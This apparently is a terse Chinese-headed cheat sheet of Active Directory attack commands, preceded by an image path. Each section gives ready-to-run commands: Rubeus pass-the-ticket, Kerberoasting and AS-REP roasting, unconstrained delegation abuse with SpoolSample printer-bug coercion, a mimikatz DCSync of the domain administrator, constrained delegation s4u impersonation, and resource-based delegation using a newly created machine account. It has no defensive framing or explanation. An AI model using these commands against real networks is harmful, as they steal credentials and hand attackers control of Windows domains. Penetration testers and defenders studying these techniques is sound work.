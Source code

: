 # 票据传递（PTT）
```
rubeus.exe /ptt /ticket: [doIF…]
```

# Kerberoasting
```
rubeus.exe kerberoast /user:svc_sql /nowrap
```

# ASREPRoasting
```
rubeus.exe asreproast /format:hashcat /user:svc_sql /nowrap
```

# 无约束委派

```
rubeus.exe monitor /interval:1 /filtuser:reddc$ /nowrap  # 在无约束委派机器开启监听

Spoolsample.exe reddc redsqlw  # 强制让A机器向B机器发起验证

rubeus.exe ptt /ticket:[ticket]  # ptt

mimikatz # lsadump::dcsync /domain:red.com /user:RED\administrator  # dcsync
```

# 约束委派
```
rubeus.exe tgtdeleg /nowrap

rubeus.exe s4u /impersonate:kevin /user:svc_sql /domain:red.local /msdsspn:time/redwebaw.red.com /altservice:cifs,host,http,winrm /ticket:[ticket] /dc:reddc.red.com /ptt
```

# 基于资源的委派
```
ipmo .\powermad.ps1

New-MachineAccount -MachineAccount my -Password $(ConvertTo-SecureString '123' -AsPlainText -Force)

ipmo .\Microsoft.ActiveDirectory.Management.dll

Set-ADComputer red09 -PrincipalsAllowedToDelegateToAccount my$ -Server [DC IP] -Verbose

rubeus.exe s4u /user:my$ /rc4:…… /impersonateuser:administrator /msdsspn:CIFS/red09.red.com /ptt
```
